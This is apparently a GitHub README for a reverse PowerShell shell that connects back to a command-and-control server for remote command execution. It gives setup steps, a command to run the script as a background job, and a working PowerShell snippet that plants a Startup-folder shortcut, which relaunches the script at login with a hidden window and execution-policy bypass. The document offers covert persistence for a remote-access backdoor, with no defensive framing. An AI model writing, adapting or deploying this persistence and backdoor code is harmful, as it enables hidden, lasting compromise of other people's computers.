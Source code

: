 # Reverse PowerShell Script

This PowerShell script establishes a reverse TCP connection to a command-and-control (C2) server and allows for remote command execution via a secure shell.

## Prerequisites

Before running the script, ensure you have the following:

- **PowerShell**: The script is written for PowerShell and should be executed in a Windows environment.
- **Execution Policy**: The script may require an execution policy that allows scripts to run.

## Step-by-Step Instructions

### 1. Set the PowerShell Execution Policy

To allow the script to run, you may need to set the execution policy to `RemoteSigned` for the current user.

1. Open a PowerShell window **as Administrator**.
2. Run the following command to set the execution policy:

   ```powershell
   Set-ExecutionPolicy RemoteSigned -Scope CurrentUser
   ```

# ReversePowerShell

#### Run in the background

```powershell
   Start-Job -ScriptBlock { C:\Users\adm\Downloads\reverse-powershell.ps1 }
```


$startupFolder = [System.Environment]::GetFolderPath('Startup')
$scriptPath = "C:\path\to\reverse-powershell.ps1"
$shortcutPath = "$startupFolder\reverse-powershell.lnk"

$wshShell = New-Object -ComObject WScript.Shell
$shortcut = $wshShell.CreateShortcut($shortcutPath)
$shortcut.TargetPath = "powershell.exe"
$shortcut.Arguments = "-WindowStyle Hidden -ExecutionPolicy Bypass -File $scriptPath"
$shortcut.Save()

